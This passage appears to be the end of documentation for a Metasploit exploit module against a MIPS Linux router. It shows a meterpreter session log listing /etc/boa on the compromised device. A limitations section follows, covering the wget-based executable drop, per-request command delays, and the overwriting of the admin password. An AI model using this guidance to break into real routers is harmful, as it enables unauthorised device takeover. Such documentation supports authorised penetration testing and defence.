 ```msf
Computer     : 192.168.1.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > pwd
/etc/boa
meterpreter > ls
Listing: /etc/boa
=================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100755/rwxr-xr-x  9581     fil   2024-03-04 09:22:46 +0000  boa.conf
100755/rwxr-xr-x  2118     fil   2024-03-04 09:22:46 +0000  mime.types

meterpreter >
```
## Limitations
Staged payloads might core dump on the target, so use stage-less payloads when using the Linux Dropper target.
Another limitation is that the router has a very limited command set that can be leveraged,
so the only option is to use the `wget` command to drop an executable on the target to get a session.
Chained command lines using `;` do not work, so each command need to be executed in a separate request
with delay of 30 seconds of more to avoid session locking (see the `CMD_DELAY` option).

Last but not least, be mindful that the admin router password gets overwritten by the exploit,
resulting in a clear indicator of comprise.
